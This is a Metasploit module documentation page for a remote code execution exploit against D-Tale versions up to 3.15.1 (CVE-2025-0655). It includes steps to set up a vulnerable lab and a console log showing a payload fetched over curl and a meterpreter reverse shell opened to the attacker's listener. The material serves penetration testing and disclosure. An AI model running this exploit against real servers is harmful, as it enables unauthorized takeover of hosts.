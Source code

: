 ## Vulnerable Application

This exploit effectively serves as a bypass for CVE-2024-3408.
An attacker can override global state to enable custom filters, which then facilitates remote code execution.
Specifically, this vulnerability leverages the ability to manipulate global application settings
to activate the enable_custom_filters feature, typically restricted to trusted environments.
Once enabled, the /test-filter endpoint of the Custom Filters functionality can be exploited to execute arbitrary system commands.

The vulnerability affects:

    * D-Tale <= 3.15.1

This module was successfully tested on:

    * D-Tale 3.15.1 installed on Ubuntu 24.04
    * D-Tale 3.12.0 installed on Ubuntu 22.04
    * D-Tale 3.10.0 installed on Ubuntu 22.04
    * D-Tale 3.0.0 installed on Ubuntu 22.04
    * D-Tale 2.5.1 installed on Ubuntu 22.04
    * D-Tale 2.4.0 installed on Ubuntu 22.04


### Installation

1. `pip install 'dtale==3.15.1'`

2. `dtale --host 0.0.0.0`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/dtale_rce_cve_2025_0655`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/linux/http/dtale_rce_cve_2025_0655
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/dtale_rce_cve_2025_0655) > options

Module options (exploit/linux/http/dtale_rce_cve_2025_0655):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    40000            yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FETCH_COMMAND   CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE    true             yes       Attempt to delete the binary after execution
   FETCH_FILELESS  false            yes       Attempt to run payload without touching disk, Linux ≥3.17 only
   FETCH_SRVHOST                    no        Local IP to use for serving payload
   FETCH_SRVPORT   8080             yes       Local port to use for serving payload
   FETCH_URIPATH                    no        Local URI to use for serving payload
   LHOST                            yes       The listen address (an interface may be specified)
   LPORT           4444             yes       The listen port


   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      agAyokIhdJZ      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/dtale_rce_cve_2025_0655) > run lhost=192.168.56.1 rhost=192.168.56.17
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 3.15.1 detected.
[*] Use data_id: 1
[*] Updated the enable_custom_filters to true.
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:33210) at 2025-03-03 20:49:53 +0900
[*] Successfully executed the payload.
[*] Successfully cleaned up data_id: 1

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           : Ubuntu 22.04 (Linux 6.8.0-52-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
